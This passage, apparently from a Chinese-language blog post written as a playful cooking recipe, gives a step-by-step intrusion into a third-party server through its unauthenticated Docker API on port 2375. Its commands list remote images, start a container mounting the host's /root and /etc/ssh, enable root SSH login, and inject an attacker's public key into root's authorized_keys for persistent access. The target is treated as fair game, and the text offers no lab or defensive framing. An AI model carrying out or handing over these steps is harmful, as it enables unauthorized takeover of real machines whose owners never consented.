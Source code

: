 这个服务器的owner也太配合了(⊙ο⊙)，ps直接看到内容，说明这个主机的2375是没有ssl验证的，基本满足入侵要求。

“五花”洗好，切好，准备下锅~

### step 3: 远程启动自己的容器

拿到了docker的控制权能做什么呢？**拿到了就呵呵了~**

```shell
# images 看看本地已有的镜像
# docker -H tcp://42.96.MOSAIC.MOSAIC:2375 images
# ...
# swarm                              latest              47dc182ea74b        4 weeks ago         19.32 MB
# jwilder/nginx-proxy                latest              203b20631e41        4 weeks ago         255.6 MB
# ubuntu                             latest              c5f1cf30c96b        4 weeks ago         120.8 MB
# shipyard/shipyard                  latest              ba426f0944bc        5 weeks ago         58.92 MB
# ...
```

省略了一部分输出，镜像还蛮多的，就选个ubuntu吧

```shell
# docker -H tcp://42.96.MOSAIC.MOSAIC:2375 run --rm -it --entrypoint bash -v /root:/tmp/root -v /etc/ssh:/tmp/ssh_etc -v /var/log:/tmp/log ubuntu

```

看到这步，相信对ssh有一些了解的同学应该就明白了

### step 4: ssh pub key 注入

在刚刚启动的容器中先看看 `/tmp/ssh_etc/sshd_config` (就是宿主机的`/etc/ssh/sshd_config`) 的PermitRootLogin字段。如果是`no`就改成`yes`，允许root通过ssh登录

然后在**你的机器上**生成一对新的pub key（已经有ssh key的也建议生成一个新的，不要使用自己日常使用的ssh pub key）

```shell
# 使用 ssh-keygen生成
ssh-keygen -t rsa -C "hello@world.com"
# 执行命令后的提示Enter file in which to save the key要看好，不要把自己的ssh key覆盖了，可以选着/tmp/id_rsa
# 其他提示enter到底即可
```

继续，注入ssh pub key，回到**刚刚启动的容器**执行

```shell
cat >> /tmp/root/.ssh/authorized_keys <<EOF
>ssh-rsa AAA....     # 这里粘贴你刚刚在自己机器生成的/tmp/id_rsa.pub
>EOF

# 如果/tmp/root/.ssh目录不存在，就直接创建
```

八角香叶生抽老抽醋都加上，中火烹饪，准备出锅~
